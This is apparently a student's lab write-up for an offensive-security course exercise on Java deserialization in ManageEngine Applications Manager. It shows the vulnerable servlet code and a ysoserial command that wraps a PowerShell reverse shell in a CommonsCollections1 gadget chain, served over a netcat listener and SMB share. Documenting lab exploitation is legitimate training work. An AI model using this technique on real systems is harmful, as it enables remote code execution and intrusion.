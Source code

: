 # ysoserial.net (Extra Mile 7.4.1.4)

*Although we have not discussed Java deserialization vulnerabilities in this course, it is worth
mentioning that one such vulnerability exists in the ManageEngine Applications Manager instance
in your lab. We encourage you to get familiar with the Java ysoserial version and try to identify
and exploit this vulnerability.*

Ysoserial is a collection of gadget chains in common .NET/Java libraries that can exploit .NET/Java applications performing unsafe deserialization of objects. The main driver program takes a user-command and wraps it in a gadget chain, then serializes these objects to stdout. When applications unsafely deserialize this data, the chain will be invoked and cause the command to be executed. (Source: https://github.com/pwntester/ysoserial.net for .NET, https://github.com/frohoff/ysoserial for Java)

Aside from looking directly at APIs (via doGet and doPost), a way to look for deserialization attack vectors is to such for evidence of writing into the file stream, in this case, searching for the `FileInputStream` object. In doing so, we find the functionality in the `CustomFieldsFeedServelet`. In this functionality, we see that the variable `customFieldObject` is used as a file name with no sanitation — meaning that it’s vulnerable to a file inclusion attack. As such, we can inject our malicious deserialization payload through this servlet. 

```java
public class CustomFieldsFeedServlet extends javax.servlet.http.HttpServlet
 {
   public void doPost(HttpServletRequest request, HttpServletResponse response) throws javax.servlet.ServletException, IOException
  {
     doGet(request, response);
   }   
 
   public void doGet(HttpServletRequest request, HttpServletResponse response)
     throws javax.servlet.ServletException, IOException
   {
   try
   {
     fileName = request.getParameter("customFieldObject");
     if ((fileName != null) && (!fileName.equals(""))) {
       response.setHeader("Content-Type", "text/xml");
       ObjectOutputStream out = null;
       FileInputStream fis = null;
       ObjectInputStream ois = null;
       try
       {
        fis = new FileInputStream(fileName);
         ois = new ObjectInputStream(fis);
         java.util.HashMap today = (java.util.HashMap)ois.readObject();
         ois.close();
         out = new ObjectOutputStream(response.getOutputStream());
         out.writeObject(today);
     }
   }
}
```

We’ll use Ysoserial to generate our payload for the application. For the gadget type, we can use CommonCollections1 as the default — although brute-forcing some of the common ones would work too. Since Ysoserial’s CommonCollections doesn’t work in Java, we can use [https://github.com/frohoff/ysoserial/issues/203#issuecomment-1581591710](https://github.com/frohoff/ysoserial/issues/203#issuecomment-1581591710) to swap between Java versions. Remember, since Burp runs on Java, it’s important to reset our Java installation back to the default. 

Once we’re done, we simply setup our netcat listener and SMB share. 

```bash
java -jar ysoserial-all.jar CommonsCollections1 'powershell -e <reverse shell>' > payload
```
